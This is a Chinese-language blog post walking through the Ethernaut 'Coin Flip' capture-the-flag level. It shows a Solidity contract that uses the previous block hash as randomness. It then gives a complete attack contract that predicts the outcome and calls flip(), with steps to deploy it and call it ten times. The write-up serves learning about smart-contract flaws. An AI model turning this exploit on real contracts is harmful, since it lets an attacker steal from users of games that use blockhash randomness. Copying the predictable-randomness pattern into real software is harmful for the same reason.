 ```yaml
---
layout: post
title: Coin Flip
---
```


# Coin Flip
关于依赖于block hash的合约行为。
```solidity
pragma solidity ^0.4.18;

contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));
    
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool side = coinFlip == 1 ? true : false;
    
    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

### 代码分析
1. 合约肯定不是通过人力来猜出结果，而是需要通过相同的逻辑来完成猜测
2. 编写攻击合约实现与该合约相同的逻辑，并在攻击合约中调用该合约的flip方法，
因为，整个流程为一条交易，所以他们获取的blockhash值肯定是一致的，即攻击合约
一定能够猜中。

### 攻击合约
[官方答案](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/attacks/CoinFlipAttack.sol)   
不导入CoinFlip合约
```solidity
pragma solidity ^0.4.18;


contract CoinFlipAttack {
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function attack(address _victim) public returns (bool) {
    address coinflip = _victim;
    uint256 blockValue = uint256(block.blockhash(block.number-1));
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool side = coinFlip == 1 ? true : false;
    coinflip.call(bytes4(keccak256("flip(bool)")), side);
    return side;
  }
}
```
*bytes4(keccak256("flip(bool)"))*为合约调用方法的methodID

### 攻击方法
1. 部署攻击合约
2. 调用攻击合约attack(address)方法；（调用10次）